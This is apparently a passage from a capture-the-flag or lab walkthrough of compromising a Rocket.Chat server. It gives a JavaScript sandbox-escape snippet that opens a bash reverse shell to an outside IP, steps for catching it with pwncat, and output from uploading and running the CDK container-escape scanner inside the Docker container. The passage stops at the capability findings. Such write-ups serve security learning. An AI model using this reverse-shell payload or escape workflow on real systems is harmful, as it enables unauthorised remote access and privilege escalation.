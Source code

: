 ```js
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec('bash -c "bash -i >& /dev/tcp/10.10.14.98/60902 0>&1"');
```

Start a listner with `pwncat-cs -lp 60902`. Click "Save changes" in the top right. Exit back to the main chat application and send a message to spawn a reverse shell.

Sure enough, this is another docker container (there is a `.dockerenv` in `\`):

```
(remote) root@c150397ccd63:/app/bundle/programs/server# ls -la /
total 76
drwxr-xr-x   1 root       root       4096 Aug 10  2021 .
drwxr-xr-x   1 root       root       4096 Aug 10  2021 ..
-rwxr-xr-x   1 root       root          0 Aug 10  2021 .dockerenv
drwxr-xr-x   1 rocketchat rocketchat 4096 Aug  2  2021 app
drwxr-xr-x   2 root       root       4096 Jul 21  2021 bin
drwxr-xr-x   2 root       root       4096 Jun 13  2021 boot
drwxr-xr-x   5 root       root        340 Jul 26 20:22 dev
drwxr-xr-x   1 root       root       4096 Aug 10  2021 etc
drwxr-xr-x   2 root       root       4096 Jun 13  2021 home
drwxr-xr-x   1 root       root       4096 Aug  2  2021 lib
drwxr-xr-x   2 root       root       4096 Jul 21  2021 lib64
drwxr-xr-x   2 root       root       4096 Jul 21  2021 media
drwxr-xr-x   2 root       root       4096 Jul 21  2021 mnt
drwxr-xr-x   2 root       root       4096 Jul 21  2021 opt
dr-xr-xr-x 415 root       root          0 Jul 26 20:22 proc
drwx------   1 root       root       4096 Aug  2  2021 root
drwxr-xr-x   3 root       root       4096 Jul 21  2021 run
drwxr-xr-x   2 root       root       4096 Jul 21  2021 sbin
drwxr-xr-x   2 root       root       4096 Jul 21  2021 srv
dr-xr-xr-x  13 root       root          0 Jul 26 20:22 sys
drwxrwxrwt   1 root       root       4096 Jul 26 20:23 tmp
drwxr-xr-x   1 root       root       4096 Jul 21  2021 usr
drwxr-xr-x   1 root       root       4096 Jul 21  2021 var
```

Run `cd /tmp` to change to a writeable directory and then run `upload Downloads/cdk_linux_amd64` in pwncat's local shell. On the target machine, run a full scan with `./cdk_linux_amd64 eva --full`:

```
[Information Gathering - System Info]
2022/07/26 21:27:11 current dir: /tmp
2022/07/26 21:27:11 current user: root uid: 0 gid: 0 home: /root
2022/07/26 21:27:11 hostname: c150397ccd63
2022/07/26 21:27:11 debian debian 10.10 kernel: 5.4.0-81-generic

[Information Gathering - Services]
2022/07/26 21:27:11 sensitive env found:
        DEPLOY_METHOD=docker-official

[Information Gathering - Commands and Capabilities]
2022/07/26 21:27:11 available commands:
        find,node,npm,apt,dpkg,mount,fdisk,base64,perl
2022/07/26 21:27:11 Capabilities hex of Caps(CapInh|CapPrm|CapEff|CapBnd|CapAmb):
        CapInh: 0000000000000000
        CapPrm: 00000000a80425fd
        CapEff: 00000000a80425fd
        CapBnd: 00000000a80425fd
        CapAmb: 0000000000000000
        Cap decode: 0x00000000a80425fd = CAP_CHOWN,CAP_DAC_READ_SEARCH,CAP_FOWNER,CAP_FSETID,CAP_KILL,CAP_SETGID,CAP_SETUID,CAP_SETPCAP,CAP_NET_BIND_SERVICE,CAP_NET_RAW,CAP_SYS_CHROOT,CAP_MKNOD,CAP_AUDIT_WRITE,CAP_SETFCAP
        Add capability list: CAP_DAC_READ_SEARCH
[*] Maybe you can exploit the Capabilities below:
```
